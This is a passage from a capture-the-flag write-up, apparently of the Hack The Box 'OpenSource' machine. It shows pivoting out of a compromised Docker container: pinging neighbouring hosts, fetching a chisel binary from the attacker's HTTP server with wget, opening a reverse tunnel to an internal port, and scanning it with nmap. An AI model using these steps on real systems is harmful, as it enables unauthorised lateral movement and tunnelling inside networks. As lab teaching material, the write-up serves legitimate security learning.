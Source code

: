 Also, I notice that **the stable shell session IP is `172.17.0.3`, which is interesting because docker assigns IPs sequentially.** Maybe there is **another docker container in `172.17.0.2` and `172.17.0.1`?**

```
[...]
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
```

Hmm... **Let's ping them for sanity check:**

```
~ # ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2): 56 data bytes
64 bytes from 172.17.0.2: seq=0 ttl=64 time=0.133 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.133/0.133/0.133 ms

~ # ping -c 1 172.17.0.1
PING 172.17.0.1 (172.17.0.1): 56 data bytes
64 bytes from 172.17.0.1: seq=0 ttl=64 time=0.080 ms

--- 172.17.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.080/0.080/0.080 ms
```

Yep, they are up.

Let's do a **local port forwarding** via `chisel` on port 3000 for `172.17.0.1`:

**Transfer `chisel` binary:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

~ # wget http://10.10.14.42:8000/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

**Setup a `chisel` server listener:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# ./chiselx64 server -p 8888 --reverse
```

**Connect to `chisel` server on the stable shell session, and background it:**
```
~ # /tmp/chisel client 10.10.14.42:8888 R:3001:172.17.0.1:3000 &
```

Now, we should able to interact with `172.17.0.1` on port 3000!

**Let's do a quick `nmap` scan to see what is it:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nmap -sT -T4 -sC -sV -p3001 127.0.0.1
[...]
PORT     STATE SERVICE VERSION
3001/tcp open  nessus?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
```